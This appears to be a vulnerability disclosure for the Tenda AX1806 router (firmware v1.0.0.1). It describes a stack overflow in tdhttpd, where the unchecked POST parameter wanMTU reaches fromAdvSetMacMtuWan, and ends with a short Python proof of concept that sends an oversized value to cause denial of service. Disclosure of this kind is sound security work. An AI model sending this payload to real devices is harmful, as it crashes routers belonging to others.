

## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has a stack overflow vulnerability. The vulnerability occurrs in the fromAdvSetMacMtuWan function, which can be accessed via the URL `goform/AdvSetMacMtuWan`.

The vulnerability is located in the function sub_658D8 called by fromAdvSetMacMtuWan.

- 

After getting the POST parameter `wanMTU`, the function does not verify its length and copies it directly to local variables on the stack, resulting in stack overflow.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"wanMTU": b'A'*0x800,
}
res = requests.post("http://127.0.0.1/goform/AdvSetMacMtuWan", data=data)
print(res.content)
```

